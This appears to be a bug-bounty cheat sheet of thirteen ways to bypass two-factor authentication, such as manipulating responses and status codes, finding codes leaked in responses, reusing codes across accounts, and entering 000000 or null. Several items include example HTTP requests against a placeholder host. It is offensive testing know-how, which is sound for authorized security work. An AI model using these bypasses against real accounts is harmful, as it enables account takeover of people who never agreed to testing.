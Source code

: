# 2FA Bypass

1. Response manipulation

The response is
```
HTTP/1.1 404 Not Found
...
{"code": false}
```
Try this to bypass
```
HTTP/1.1 404 Not Found
...
{"code": true}
```

2. Status code manipulation

The response is
```
HTTP/1.1 404 Not Found
...
{"code": false}
```
Try this to bypass
```
HTTP/1.1 200 OK
...
{"code": false}
```

3. 2FA Code in Response

Always check the response!
```
POST /req-2fa/
Host: vuln.com
...
email=victim@gmail.com
```
The response is
```
HTTP/1.1 200 OK
...
{"email": "victim@gmail.com", "code": "101010"}
```

4. JS Files may contain info about the 2FA Code (Rare case)
   
5. Bruteforce the 2FA code
   
6. Missing 2FA Code integrity validation, code for any user account can be used
```
POST /2fa/
Host: vuln.com
...
email=attacker@gmail.com&code=382923
```
```
POST /2fa/
Host: vuln.com
...
email=victim@gmail.com&code=382923
```
   
7. No CSRF protection on disabling 2FA, also there is no auth confirmation.

8. 2FA gets disabled on password change/email change. 

9. Clickjacking on 2FA disabling page, by iframing the 2FA Disabling page and lure the victim to disable the 2FA. 
    
10. Enabling 2FA doesn't expire previously active sessions, if the session is already hijacked and there is a session timeout vuln.

11. 2FA code reusability, same code can be reused.

12. Enter code 000000
```
POST /2fa/
Host: vuln.com
...
code=00000
```

13. Enter code "null"
```
POST /2fa/
Host: vuln.com
...
code=null
```

Source: [Harsh Bothra](https://twitter.com/harshbothra_) and other writeup